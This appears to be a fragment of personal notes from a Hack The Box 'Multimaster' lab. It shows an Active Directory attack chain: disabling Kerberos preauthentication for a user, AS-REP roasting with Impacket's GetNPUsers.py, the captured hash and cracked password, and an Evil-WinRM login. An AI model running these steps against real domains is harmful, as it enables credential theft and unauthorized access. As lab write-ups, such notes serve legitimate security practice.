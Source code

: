 NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
*Evil-WinRM* PS C:\Users\sbauer\Desktop> 

--------------------------------------------------
next -
Set-ADAccountControl -Identity jorden -doesnotrequirepreauth $true
and then getnpusers.py 	   	 		to dump hash 	

--------------------------
root@softwareuser:/usr/share/doc/python3-impacket/examples# sudo python GetNPUsers.py MEGACORP.local/sbauer:"D3veL0pM3nT!" -dc-ip multimaster.htb -reques
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Name    MemberOf                                      PasswordLastSet             LastLogon  UAC      
------  --------------------------------------------  --------------------------  ---------  --------
jorden  CN=Developers,OU=Groups,DC=MEGACORP,DC=LOCAL  2020-01-10 06:18:17.503303  <never>    0x410200 



$krb5asrep$23$jorden@MEGACORP.LOCAL:018e21dd9830737995b5dc6f77e48ffa$302a6487a970d34d4841fb1216b3484de0d4c27ffadb144b1ec4e496ca4e9f610047c302251b8e38d25fbf5f44617562ba2ffda693a368052fbc166691b1ab93916c11841a9798ad771083cd35c88aa8de94afd23af66de39fe24a9f78da2307355d0c22541b7ee01b8846a69fd9f638500e96ab5bc6d20159db057fe39391b428903c5f914aae5c1b39c8c5b4655fdf6d306333e500f33a64336bb38b33a97b9dca3253fe0cbc67fa96a163bfe6816da8cef55a420713f21be9b8ada35fff89c0f24abfcd0b7b1223411cd43a4b624a00fcaf6247f4b30e0008d57550cc3c9a120aadb462cb3c36e5f818ddd27fa755
root@softwareuser:/usr/share/doc/python3-impacket/examples# 
------------------------------------  18200 | Kerberos 5 AS-REP etype 23                       | Network Protocols
after decoding got pass
rainforest786 
-------------
root@softwareuser:~/Desktop/multimaster# evil-winrm -i multimaster.htb -u jorden -p rainforest786

-------------
